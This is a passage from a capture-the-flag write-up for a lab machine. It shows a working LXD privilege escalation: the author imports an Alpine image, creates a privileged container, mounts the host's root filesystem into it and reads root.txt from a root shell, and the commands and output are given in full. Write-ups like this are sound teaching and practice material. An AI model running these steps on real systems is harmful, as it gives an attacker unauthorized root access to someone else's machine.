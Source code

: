 The result was a file named `alpine-v3.8-i686-20210814_1625.tar.gz` to run on the target system. I uploaded it via the usual Python 3 HTTP server. On the target system, started by importing the image we just created.

```none
ash@tabby:~$ lxc image import ./alpine*.tar.gz --alias myimage
```

The next step is to initialize the container. There are a bunch of questions when running this command - I just selected the default for each one by pressing Enter.

```none
ash@tabby:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (lvm, ceph, btrfs, dir) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
```

Next, we run the image.

```none
ash@tabby:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
```

Then mount the target file system in the container - so we can access all the files in the host!

```none
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
```

Finally, we can start the container, and get a shell in it.

```none
ash@tabby:~$ lxc start mycontainer
ash@tabby:~$ lxc exec mycontainer /bin/sh
~ # id
uid=0(root) gid=0(root)
```

And we have the root flag!

```none
~ # wc -c /mnt/root/root/root.txt 
33 /mnt/root/root/root.txt
```

